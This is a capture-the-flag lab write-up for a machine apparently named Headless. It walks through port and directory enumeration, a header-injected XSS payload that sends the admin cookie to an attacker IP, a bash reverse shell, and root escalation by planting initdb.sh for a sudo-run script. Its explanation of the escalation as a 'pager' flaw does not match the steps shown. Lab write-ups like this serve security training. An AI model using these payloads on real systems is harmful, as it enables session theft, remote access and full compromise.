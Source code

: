 # Enumeration
## NMAP
```bash
nmap -sC -sV -Pn -p- 10.10.11.8 -T5  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-26 10:01 EDT
Nmap scan report for 10.10.11.8
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Under Construction
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.32 seconds
```
## Directory 
```bash
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 302,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   302,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
Progress: 166564 / 220561 (75.52%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 166614 / 220561 (75.54%)
===============================================================
Finished
===============================================================
                                                                 
```

Going to the `dashboard` endpoint we get an unauthorized message. Maybe we can intercept the admin cookie in order to gain access to the page.

When we try an XSS attack via a form field we get back the Hacking attempt message with all the headers of the request. We can use BurpSuite to intercept the request and add the XSS attack on a Header or we can create a new Header with the XSS attack.

```bash
Hacking Attempt Detected

Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

Client Request Information:

Method: POST
URL: http://10.10.11.8:5000/support
Headers: Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 92
Origin: http://10.10.11.8:5000
Connection: keep-alive
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs;xss=<script>fetch("http://10.10.14.15:8000/?"+document.cookie);</script>
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
![picture alt](assets/cookie_admin.png)

Now we can access the dashboard endpoint by changing the cookie on our web browser.

![picture alt](assets/dashboard.png)

Reverse shell

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.15/4444 0>&1'
```

Normal tty
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
dvir@headless:~/app$ cat /usr/bin/syscheck

```

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

```bash
dvir@headless:~/app$ find / -type f -name initdb.sh 2>/dev/null
dvir@headless:~/app$ 
```

As we can see the `initdb.sh` script does not exists so if we create one of our own we could start the `syscheck` script. The vulnerability is our case is with the pager that the system uses. We can get a root shell back via the pager by entering /bin/bash as a command.

```bash
cd ~
nano initdb.sh
    #!/bin/bash
    bash
chmod +x initdb.sh
```
```bash
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
dvir@headless:~$ nano initdb.sh
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
ca^Ht^H^H^H
cat /root/root.txt
a7409de41a9df3ac0271593bd172a30
```
